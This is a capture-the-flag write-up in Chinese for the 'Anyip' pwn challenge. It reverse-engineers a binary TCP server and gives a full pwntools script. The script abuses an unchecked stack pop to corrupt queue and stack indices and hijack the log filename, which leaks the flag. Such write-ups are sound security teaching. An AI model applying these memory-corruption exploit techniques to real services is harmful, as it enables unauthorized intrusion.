


# Anyip

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

题目实现了一个最基础的tcp服务器，用户需要输入二进制内容和它进行交互。
根据读取缓冲区并parse的函数，可以总结出以下输入的规律：



其中 *action* 可以是`0x1111`, `0x2222`, `0x3333`或`0x4444`，分别对应树打印、
栈操作、树构建和队列操作。

其中栈和队列的操作比较好逆，可以通过 *opt* 来控制退栈和压栈等。
其中logname会在一开始按时间戳生成一个，我们不能通过打log来获取它的输出。
观察到操作栈时，压栈有检查，退栈却没有，分析bss上的布局，
我们可以覆盖到控制队列的`rear`。入队的时候直接用了`rear`来访问队列，
随后`rear = (rear + 1) % 10`，因此我们控制`rear`后可以向后方写入一个数字 *buf* 。
最简单的就是控制`bp`，然后我们就可以无限压栈，压到`sp`后，将`logname`的偏移压入其中，
接着就可以控制log文件的名字了。



再然后就是难逆的树操作了。一开始还不太好看出来，因为有个0x50大小的结构体，
却没有任何信息。最后在一堆函数里找到这么个字符串：`"cannot create std::deque larger than max_size()"`，
借助C++编译一个空的deque然后-g生成调试符号，终于在Ghidra里读到了整个结构体的全貌，
同时也推出了其他的库函数，可以分析了。最后还原出的树构建的函数大约是这样的：

```c
struct Node {
    char ch;
    Node *lchild;
    Node *rchild;
} *root;

void insert(char ch) {
    deque<Node *> dequeue;
    Node *node = root;
    dequeue.push_back(node);
    while (!dequeue.empty()) {
        node = dequeue.front();
        if (!node->lchild || !node->rchild)
            break;
        dequeue.push_back(node->lchild);
        dequeue.push_back(node->rchild);
        dequeue.pop_front();
    }
    if (!node->lchild)
        node->lchild = new Node(ch);
    else
        node->rchild = new Node(ch);
}

void tostring(string &acc) {
    Node *node = root;
    while (node || !dequeue.empty())
        if (node) {
            dequeue.push_back(node);
            node = node->lchild;
        } else {
            node = dequeue.back();
            acc += node->ch;
            dequeue.pop_back();
            node = node->rchild;
        }
}
```

> [!TIP]
> 当不开优化选项时，C++的大量函数模板实例化后没有内联，导致这道题的很多函数是空的，
> 逆向难度变相提高了。如果开启了编译选项，结构体信息会全部打包进ELF中，使用反编译软件可以读取之，
> 从而方便我们backport类的结构体到题目中。（虽然还是要猜它是什么类）

根据以上代码，在插入节点时，使用BFS方式填充节点（也就是数组平铺式），
在构建字符串时使用中序遍历取出节点。在树打印函数中，如果中序遍历树得到`SomeIpfun`，
那么就会打开log文件并输出其中的内容。这也是唯一的输出内容的地方。

因此控制树节点使其中序遍历为`SomeIpfun`，并劫持`logname`为`"flag"`就可以输出flag。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anyip'

def payload(lo: int):
    global sh, server
    if lo:
        if lo & 4 or not isinstance(server, process):
            server = process(EXE)
        if lo & 2:
            gdb.attach(server)
        sh = remote('127.0.0.1', 9999)
    else:
        sh = remote('', 9999)

    def encode(op: int, option: int, buf: bytes) -> bytes:
        return p16(op) + b'\0' + p8(option) + p64(0) + p32(0x701) + buf

    def send(buf: bytes):
        sh.send(buf)
        sleep(0.125)

    info('Setting up bp to bypass stack limitation')
    for _ in range(5):
        send(encode(0x2222, 2, b'')) # stack pop
    send(encode(0x2222, 1, b'27'))   # stack push: [rear] = &sp - &queue
    send(encode(0x4444, 1, b'4096')) # queue push: [bp] = 0x1000
    info('Setting sp to 16 to mod logname')
    for _ in range(14):
        send(encode(0x2222, 1, b'0'))
    send(encode(0x2222, 1, b'16'))   # stack push: [sp] = &logname - &stack
    info('Now set logname as "flag"')
    send(encode(0x2222, 1, str(u32(b'flag')).encode()))
    send(encode(0x2222, 1, b'0'))    # logname = "flag"

    info('Setting up char tree')
    sh.send(encode(0x3333, 3, b'p'))
    sh.send(encode(0x3333, 1, b'e'))
    sh.send(encode(0x3333, 1, b'u'))
    sh.send(encode(0x3333, 1, b'o'))
    sh.send(encode(0x3333, 1, b'I'))
    sh.send(encode(0x3333, 1, b'f'))
    sh.send(encode(0x3333, 1, b'n'))
    sh.send(encode(0x3333, 1, b'S'))
    sh.send(encode(0x3333, 1, b'm'))

    info('Now print the flag!!!')
    sh.send(encode(0x1111, 2, b''))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode()}")
    sh.close()
```
